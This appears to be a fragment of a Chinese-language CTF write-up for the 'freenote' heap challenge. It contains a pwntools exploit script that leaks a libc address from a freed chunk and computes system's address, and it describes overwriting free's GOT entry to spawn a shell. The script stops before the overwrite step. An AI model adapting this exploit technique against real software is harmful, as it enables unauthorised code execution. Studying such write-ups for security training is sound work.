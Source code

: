 通过 `edit 0`，将 `free_got` 改为 `system` 地址，在` free(1)` ，相当于调用了 `system("/bin/sh")`


最终`payload`:

```python
#!/usr/bin/env python
from pwn import *

p = process('./freenote')

libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

def new_note(x):
    p.recvuntil("Your choice: ")
    p.send("2\n")
    p.recvuntil("Length of new note: ")
    p.send(str(len(x))+"\n")
    p.recvuntil("Enter your note: ")
    p.send(x)

def delete_note(x):
    p.recvuntil("Your choice: ")
    p.send("4\n")
    p.recvuntil("Note number: ")
    p.send(str(x)+"\n")

def list_note():
    p.recvuntil("Your choice: ")
    p.send("1\n")
    
def edit_note(x,y):
    p.recvuntil("Your choice: ")
    p.send("3\n")   
    p.recvuntil("Note number: ")
    p.send(str(x)+"\n")   
    p.recvuntil("Length of note: ")
    p.send(str(len(y))+"\n")   
    p.recvuntil("Enter your note: ")
    p.send(y)
    
####################leak libc#########################

notelen=0x80

new_note("A"*notelen)
new_note("B"*notelen)
delete_note(0)

new_note("\x78")
#gdb.attach(p)
list_note()
p.recvuntil("0. ")
leak = p.recvuntil("\n")
print leak[0:-1].encode('hex')
leaklibcaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leaklibcaddr)
delete_note(1)
delete_note(0)

libc_base_addr = leaklibcaddr - 0x3c4b78
print "libc_base: " + hex(libc_base_addr)

system_sh_addr = libc_base_addr + libc.symbols['system']
print "system_sh_addr: " + hex(system_sh_addr)
```